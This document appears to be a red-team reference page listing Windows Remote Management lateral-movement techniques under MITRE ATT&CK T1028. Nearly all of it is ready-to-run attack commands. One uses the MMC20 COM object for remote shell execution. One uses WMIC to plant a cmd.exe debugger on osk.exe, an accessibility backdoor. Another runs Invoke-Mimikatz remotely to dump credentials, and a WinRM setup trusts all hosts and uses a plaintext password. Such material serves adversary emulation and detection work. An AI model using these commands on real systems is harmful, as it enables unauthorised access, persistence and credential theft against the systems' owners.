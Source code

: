 ﻿## Windows Remote Management

MITRE ATT&CK Technique: [T1028](https://attack.mitre.org/wiki/Technique/T1028)

### Enable Windows Remote Management

Input:

    powershell Enable-PSRemoting -Force

### Powershell lateral movement using the mmc20 application com object

Input:

    powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","<computer_name>")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/


### WMIC Process Call Create

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

### PowerSploit Invoke-Mimikatz WinRM

    powershell-import /local/path/to/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComputerName TARGET

Reference:

 https://blog.cobaltstrike.com/2015/07/22/winrm-is-my-remote-access-tool/
 
 ### WinRM - PS Remoting
 
    PS> winrm quickconfig

    #Trust all (*) hosts for outbound communications – Must be SYSTEM
    PS> Set-Item WSMan:localhost\client\trustedhosts -value * -force

    #Trust a selection of hosts for outbound communications – Must be SYSTEM
    PS> Set-Item WSMan:localhost\Client\TrustedHosts -Value 'machineA,machineB’ -force

    #Create a Valid Credential Object in Powershell
    PS> $Username = '<domain>\<username>'
    PS> $Password = ’Password12345'
    PS> $PSS = ConvertTo-SecureString $Password -AsPlainText -Force
    PS> $Creds = new-object system.management.automation.PSCredential $Username,$PSS

    #Start a PSSession
    PS> $Session = New-PSSession -ComputerName 10.150.10.100 -Credential $Creds
    PS> Invoke-Command -Session $Session –Command {Get-Process}

    #List PSSessions
    PS> Get-PSSession
